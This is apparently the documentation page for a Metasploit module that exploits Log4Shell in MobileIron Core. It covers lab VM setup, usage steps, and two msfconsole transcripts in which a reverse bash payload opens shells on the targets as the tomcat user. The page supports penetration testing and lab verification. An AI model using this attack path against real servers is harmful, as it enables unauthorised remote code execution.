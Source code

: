 ## Vulnerable Application

### Description
MobileIron Core is affected by the Log4Shell vulnerability whereby a JNDI string sent to the server
will cause it to connect to the attacker and deserialize a malicious Java object. This results in OS
command execution in the context of the tomcat user.

This module will start an LDAP server that the target will need to connect to.

### Setup
Once MobileIron Core is installed, no configuration needs to take place. The application is vulnerable out of the box.

### MobileIron Core Appliance ISO Installation on VMWare Fusion

1. Obtain a `mobileiron-##.#.#.#-##.iso` file, the following steps utilize `mobileiron-10.6.0.0-23.iso`.
2. Use the ISO to create "A New Virtual Machine".
3. Customize the VM settings to your liking. I gave the VM 4gb RAM, 4 cores, and changed the network adapter to a bridged mode
so that I can hit it over the network.
4. Boot the new virtual machine.
5. Type `vm-install` at the `boot:` prompt.
6. Wait patiently while the VM reboots and begins the install process. The system *will* reboot when installation completes.
7. When prompted with `Continue with configuration dialog?`, type `yes`
8. Type `q` to clear the license from the screen.
9. Accept the End User License Agreement by typing `yes`
10. Enter a Company Name / contact / email of your choosing. They don't matter.
11. Configure an enable password (e.g. `Labpass1`)
12. Enter an admin user name (e.g. `albinolobster`)
13. Enter and confirm an admin password (e.g. `Labpass1`)
14. Select `a` for the management interface
15. Assign a static IP address and network mask that works with your test network. (e.g. `10.9.49.101` and `255.255.255.0`)
16. Enter your test networks default gateway (e.g. `10.9.49.1`)
17. Enter a fully-qualified domain name for the device (e.g. `lobster.example.com`). Unfortunately, this needs to work. I added a
static DNS entry to my lab network's router.
18. Enter your desired name server. My lab network relies on the aforementioned router (e.g. `10.9.49.1`)
19. Enter blank entries for name server 2 and 3.
20. `yes` to enable remote shell access (why not, right?)
21. `no` to configuring NTP
22. `no` to configuring system clock
23. `yes` to commit changes
24. Type `reload` to restart the system and `yes`, when prompted, to both saving the configuration and proceeding with the reload
25. When the system has restarted, you should now have a vulnerable install of MobileIron Core.
26. Visit `https://ipaddr` to ensure the HTTP server has fully loaded

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/mobileiron_core_log4shell`
3. Set the `RHOSTS`, `LHOST`, and `SRVHOST`
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Options

## Scenarios

### MobileIron Core 11.2.0.0-31

```
msf6 > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf6 exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.100
RHOSTS => 10.9.49.100
msf6 exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.100:48004) at 2022-07-29 09:46:14 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux hackercat.example.com 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### MobileIron Core 10.6.0.0-23

```
msf6 > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf6 exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.101
RHOSTS => 10.9.49.101
msf6 exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.101:35304) at 2022-07-29 10:19:58 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux lobster.example.com 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.9.49.101 - Command shell session 1 closed.
```
